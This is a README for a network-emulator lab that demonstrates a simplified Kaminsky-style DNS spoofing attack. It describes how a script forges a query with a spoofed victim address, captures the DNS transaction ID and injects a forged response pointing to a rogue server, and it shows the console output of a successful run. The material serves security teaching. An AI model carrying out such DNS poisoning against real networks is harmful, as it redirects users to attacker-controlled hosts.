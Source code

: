 # DNS spoofing attack

This example covers the DNS spoofing attack, a simplified version of the
Kaminsky DNS attack. The IMUNES topology looks like this: 
![DNS spoofing topology](http://imunes.tel.fer.hr/images/topologies/kaminsky.png)

## Starting the DNS server hierarchy
Start the experiment specified in `dnsspoof.imn` and issue the
[prepare.sh](prepare.sh) command to start all the DNS and HTTP servers.
```console
# ./prepare.sh
```
This script will also send one packet to the dnsZpm server so that it
communicates with the rest of the hierarchy and caches the authoritative server
for the tel.fer.hr domain.

## Executing the attack
The attack is executed by running the [dnsspoof.sh](dnsspoof.sh) script. This
script first creates a fake DNS query for the FQDN www.tel.fer.hr on the
attacker. The fake query has a spoofed source IP of the victim pc node
(30.0.0.3).

The attacker has taken control of the R9 node and captures the outgoing DNS id
that it needs to craft a malicious response with the address of the RogueServer
instead of the www.tel.fer.hr server.

The dnsTel node is under a DDoS attack that is simulated by delaying traffic
to that node by 2 seconds.

Script output is shown below:
```console

# ./dnsspoof.sh 
Try 1 / 5...
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth2, link-type EN10MB (Ethernet), capture size 65535 bytes

...

Sent 1 packets.
1 packet captured
3 packets received by filter
0 packets dropped by kernel

...

Did it work?

www.tel.fer.hr has address 10.0.11.10
PING www.tel.fer.hr (10.0.11.10): 56 data bytes
64 bytes from 10.0.11.10: icmp_seq=0 ttl=62 time=0.085 ms
64 bytes from 10.0.11.10: icmp_seq=1 ttl=62 time=0.063 ms
64 bytes from 10.0.11.10: icmp_seq=2 ttl=62 time=0.063 ms
--- www.tel.fer.hr ping statistics ---
3 packets transmitted, 3 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 0.063/0.070/0.085/0.010 ms

Success!
```
